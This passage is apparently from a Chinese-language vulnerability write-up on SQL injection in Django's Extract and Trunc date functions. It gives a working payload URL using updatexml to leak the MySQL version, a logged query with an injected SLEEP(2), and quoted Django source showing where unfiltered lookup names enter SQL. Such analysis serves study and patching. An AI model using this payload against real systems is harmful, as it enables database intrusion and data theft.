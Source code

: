   
- 更新数据库  
```
makemigrations
migrate

```  
  
  
### payload  
```
http://127.0.0.1:8000/exp/extractexp?name=YEAR FROM start_datetime)) and updatexml(1,concat(1,(select version()),1),1)-- 

```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Gw8FuwXLJnRqnibbFkl1n9OUnIS3jwx0EfZUibUoNKLkVcmjjVG3IkVpzgzcDnibczI7mJ4k0PjiaOSyHGoeoAKmBA/640?wx_fmt=jpeg "")  
##   
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Gw8FuwXLJnRqnibbFkl1n9OUnIS3jwx0EaUF7BH8Bdzlq4DnFPZNb3ibXZy53RJUgN77zRMRbkibAruehnlT8Nicvg/640?wx_fmt=gif "")  
  
**漏洞分析**  
##   
  
查看MySQL日志  
```
SELECT (1) AS `a` FROM `exp` WHERE EXTRACT(YEAR FROM `exp`.`start_date`) = (EXTRACT(YEAR FROM START_DATETIME)) AND SLEEP(2)-- FROM `exp`.`start_datetime`)) LIMIT 1

```  
### 概述  
  
漏洞点在于 Django 数据库函数中的两个日期函数：Trunc 和 Extract 。  
  
Extract 用于提取日期，可以提取日期字段中的年、月、日等信息， Trunc 则用于截取，比如 2000-01-01 11:11:11 ，可以根据需求获取到日期 2000-01-01 。  
  
漏洞的关键点在于将未过滤的数据传递给 kind 或 lookup_name 时，会被拼接到SQL语句中，最终导致 SQL 注入漏洞。  
```
class Extract(TimezoneMixin, Transform):
    lookup_name = None
    output_field = IntegerField()

    def __init__(self, expression, lookup_name=None, tzinfo=None, **extra):
        if self.lookup_name is None:
            self.lookup_name = lookup_name
        if self.lookup_name is None:
            raise ValueError('lookup_name must be provided')
        self.tzinfo = tzinfo
        super().__init__(expression, **extra)

    def as_sql(self, compiler, connection):
        sql, params = compiler.compile(self.lhs)
        lhs_output_field = self.lhs.output_field
        if isinstance(lhs_output_field, DateTimeField):
            tzname = self.get_tzname()
            sql = connection.ops.datetime_extract_sql(self.lookup_name, sql, tzname)
        elif self.tzinfo is not None:
            raise ValueError('tzinfo can only be used with DateTimeField.')
        elif isinstance(lhs_output_field, DateField):
            sql = connection.ops.date_extract_sql(self.lookup_name, sql)
        elif isinstance(lhs_output_field, TimeField):
            sql = connection.ops.time_extract_sql(self.lookup_name, sql)
        elif isinstance(lhs_output_field, DurationField):
            if not connection.features.has_native_duration_field:
                raise ValueError('Extract requires native DurationField database support.')
            sql = connection.ops.time_extract_sql(self.lookup_name, sql)
        else:
```